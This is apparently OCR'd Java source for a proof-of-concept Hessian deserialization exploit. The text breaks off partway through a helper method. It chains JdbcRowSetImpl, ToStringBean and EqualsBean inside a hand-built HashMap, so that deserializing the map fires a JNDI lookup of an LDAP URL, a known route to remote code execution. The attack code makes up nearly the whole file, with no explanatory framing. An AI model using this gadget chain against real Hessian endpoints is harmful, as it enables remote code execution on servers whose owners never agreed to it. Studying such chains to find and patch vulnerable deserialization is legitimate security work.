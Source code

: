 ```java
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.util.HashMap;

public class Hessian_JNDI implements Serializable {

    public static  byte[] serialize(T o) throws IOException {
        ByteArrayOutputStream bao = new ByteArrayOutputStream();
        HessianOutput output = new HessianOutput(bao);
        output.writeObject(o);
        System.out.println(bao.toString());
        return bao.toByteArray();
    }

    public static  T deserialize(byte[] bytes) throws IOException {
        ByteArrayInputStream bai = new ByteArrayInputStream(bytes);
        HessianInput input = new HessianInput(bai);
        Object o = input.readObject();
        return (T) o;
    }

    public static void setValue(Object obj, String name, Object value) throws Exception{
        Field field = obj.getClass().getDeclaredField(name);
        field.setAccessible(true);
        field.set(obj, value);
    }

    public static Object getValue(Object obj, String name) throws Exception{
        Field field = obj.getClass().getDeclaredField(name);
        field.setAccessible(true);
        return field.get(obj);
    }

    public static void main(String[] args) throws Exception {
        JdbcRowSetImpl jdbcRowSet = new JdbcRowSetImpl();
        String url = "ldap://127.0.0.1:1389/1re2as";
        jdbcRowSet.setDataSourceName(url);

        ToStringBean toStringBean = new ToStringBean(JdbcRowSetImpl.class,jdbcRowSet);
        EqualsBean equalsBean = new EqualsBean(ToStringBean.class,toStringBean);

        //手动生成HashMap，防止提前调用hashcode()
        HashMap hashMap = makeMap(equalsBean,"1");

        byte[] s = serialize(hashMap);
        System.out.println(s);
        System.out.println((HashMap)deserialize(s));
    }

    public static HashMap makeMap ( Object v1, Object v2 ) throws Exception {
        HashMap s = new HashMap&lt;&gt;();
        setValue(s, "size", 2);
        Class&lt;?&gt; nodeC;
        try {
            nodeC = Class.forName("java.util.HashMap$Node");
        }
        catch ( ClassNotFoundException e ) {
            nodeC = Class.forName("java.util.HashMap$Entry");
        }
        Constructor&lt;?&gt; nodeCons = nodeC.getDeclaredConstructor(int.class, Object.class, Object.class, nodeC);
        nodeCons.setAccessible(true);

```